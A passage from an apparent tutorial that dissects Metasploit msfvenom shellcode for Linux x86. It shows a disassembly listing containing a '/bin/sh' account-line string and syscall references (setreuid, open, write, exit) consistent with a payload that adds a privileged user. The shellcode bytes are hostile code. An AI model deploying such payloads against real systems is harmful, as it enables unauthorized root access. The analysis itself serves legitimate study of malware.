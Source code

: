 ```sh
00000042  3A3A              cmp bh,[edx]
00000044  2F                das
00000045  3A2F              cmp ch,[edi]
00000047  62696E            bound ebp,[ecx+0x6e]
0000004A  2F                das
0000004B  7368              jnc 0xb5
0000004D  0A598B            or bl,[ecx-0x75]
00000050  51                push ecx
00000051  FC                cld
00000052  6A04              push byte +0x4
00000054  58                pop eax
00000055  CD80              int 0x80
00000057  6A01              push byte +0x1
00000059  58                pop eax
0000005A  CD80              int 0x80
root@ubuntu:~#
```

Let's analyze the code line by line using the comments section.

![](/assets/images/Disecting_Msfvenom_Shellcode_Linux_x86/AUser.png)

syscall reference [setreuid()](http://man7.org/linux/man-pages/man2/setreuid.2.html), [open()](http://man7.org/linux/man-pages/man2/open.2.html), [write()](http://man7.org/linux/man-pages/man2/write.2.html), [exit()](http://man7.org/linux/man-pages/man3/exit.3.html).
